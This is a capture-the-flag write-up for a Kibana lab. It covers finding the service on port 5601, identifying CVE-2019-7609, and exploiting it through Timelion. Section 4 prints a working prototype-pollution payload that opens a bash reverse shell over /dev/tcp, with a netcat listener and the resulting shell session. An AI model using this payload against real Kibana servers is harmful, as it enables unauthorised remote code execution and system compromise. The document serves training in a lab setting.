 From these results, we can see that some service is running on port 5601. So, we can go back to our browser and see that the Kibana dashboard is running at `http://<ip_address:5601/app/kibana'.`

![kibana_welcome](./.images/kibana_welcome.png)

We can select the option 'Try our sample data' and proceed to access the dashboard. As per the question, we need to now look for the version of Kibana running on the machine (which will be helpful further to search for vulnerabilities) which can be found in the management section:

![kibana_management](./.images/kibana_management.png)

We can now submit this version number as the answer to the second question.

3. ##### What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

Now, that we know the service and it's version we can search for related vulnerabilities. In the beginning we came across a vulnerability related to prototype-based inheritance vulnerability. So, we can look for that kind of vulnerability in Kibana. After some googling, we can find an entire article on this vulnerability which can lead to an RCE [here](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/). We can easily get the CVE number and exploitation method from the same website. As for this question, we can submit the CVE number found on the website as the answer to the third question.

4. ##### Compromise the machine and locate user.txt

In the article it is very beautifully explained about the exploit and how we can perform it. The basic steps that we need to follow in order to exploit are as follows:

 1.  Go to Timelion and enter the following payload:

     ```
     .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/10.x.x.x/4242 0>&1");process.exit()//')
     .props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
     ```

2. Update the IP with our local machine's IP address and port number of our choice and click on the play-like button.

3. Start a listener on the mentioned port on our local machine.

   ```
   tester@kali:~/Downloads$ nc -nvlp 4242
   listening on [any] 4242 ...
   ```

4. Go to Canvas on Kibana dashboad and wait for sometime to get a reverse shell on our listener.

P.S. The above payload on the article did not work for me, so I looked for some other payload and found a git repository over [here](https://github.com/mpgn/CVE-2019-7609) and used those payloads.

```
tester@kali:~/Downloads$ nc -nvlp 4242
listening on [any] 4242 ...
connect to [10.8.91.135] from (UNKNOWN) [10.10.250.78] 41744
bash: cannot set terminal process group (958): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$ whoami

kiba
kiba@ubuntu:/home/kiba/kibana/bin$ cd /home/kiba

kiba@ubuntu:/home/kiba$ ls

elasticsearch-6.5.4.deb
kibana
user.txt
```
